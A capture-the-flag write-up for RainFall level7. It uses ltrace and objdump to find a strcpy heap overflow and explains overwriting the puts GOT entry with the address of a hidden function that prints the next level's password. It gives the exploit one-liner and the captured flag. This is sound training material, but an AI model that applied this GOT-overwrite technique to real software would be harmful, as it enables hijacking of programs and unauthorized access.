 level7@RainFall:~$ ./level7 
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 hello
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 hello hello
~~

info var:
0x08049960  c

info function
0x080484f4  m
0x08048521  main

level7@RainFall:~$ ltrace ./level7 hello helloo
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "hello")                      = 0x0804a018
strcpy(0x0804a038, "helloo")                     = 0x0804a038
fopen("/home/user/level8/.pass", "r")            = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++


--> the main stores the pass file in the c variable, but doesn't print it.
We need to call the m function that is not called, but that prints the c variable.

Let's try to call the m function instead of the puts function.

Address of m: 0x080484f4
Address of puts in the GOT, as the address in the PLT is read-only: 0x08049928
/*
level7@RainFall:~$ objdump -R ./level7
./level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049928 R_386_JUMP_SLOT   puts
*/

-> we need to replace the address of puts by the address of m.
man strcy:
 If the destination string of a strcpy() is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.

We can overflow with strcpy.
Overflow offset:
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
__libc_start_main(0x8048521, 2, 0xbffff794, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                = 0x0804a008
malloc(8)                                                = 0x0804a018
malloc(8)                                                = 0x0804a028
malloc(8)                                                = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...> --> 20 in the Buffer Overflow pattern generator
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

--> offset is at 20

./level7 arg1 arg2
arg1 = x padding to overflow into 3rd malloc, and replace ptr2[1] with address of puts
arg2 = address of m
-> so that we have strcpy(dest: &puts, src: &m), so when we call puts("~~"), we will call m in reality.

./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1666004181
